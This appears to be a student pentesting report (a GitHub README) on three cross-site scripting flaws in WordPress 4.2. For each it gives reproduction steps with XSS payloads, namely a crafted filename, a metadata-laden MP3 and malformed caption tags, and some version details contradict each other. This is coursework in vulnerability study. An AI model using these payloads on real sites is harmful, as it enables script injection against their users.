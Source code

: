 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Large File Upload Error XSS - Image Files
  - [X] Summary:
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:
  - [X] GIF Walkthrough:
  ![](xss-file-too-large.gif)
  - [X] Steps to recreate:
  ```
  a. dd if=/dev/zero of='something<img src=a onerror=(alert('pwned'))>.png' count=1024 bs=10000 to create a large file with the script exploit.
  b. Open WordPress > Media > Add new Image
  c. Add the newly created file.
  ```
1. (Required) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [X] Summary:
    - Vulnerability types: XSS, Metadata
    - Tested in version: 4.2.13
    - Fixed in version: 4.2.0
  - [X] GIF Walkthrough:
  ![](xss-mp3-metadata.gif)
  - [X] Steps to recreate:
  ```
  The following MP3 file can be used to reproduce this issue:

  https://www.securify.nl/advisory/SFY20160742/xss.mp3

  1) upload MP3 file to the Media Library (as Editor or Administrator).
  2) Insert an Audio Playlist in a Post containing this MP3 (Create Audio
  Playlist).
  ```
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7)
1. (Required) Malformed HTML Tags
  - [X] Summary:
    - Vulnerability types: XSS, Embedded Tags
    - Tested in version: 4.2.0
    - Fixed in version: N/A
  - [X] GIF Walkthrough:
  ![](xss-caption-code-exploit.gif)
  - [X] Steps to recreate:
  ```
    1) Create a new post
    2) Add the script on the text of the body: <a href="[caption code"]> </a> <a title=" onclick=alert("hi!")> something</a>
    3) Publish
  ```

## Assets

N/A

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

## Notes

What took the most time out of this experience is setting up the environment. Other than that, the exploits were easy to implement once a blog post has a good overview and a proof of concept of the exploits.

## License

    Copyright [2018] [Excel Espina]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
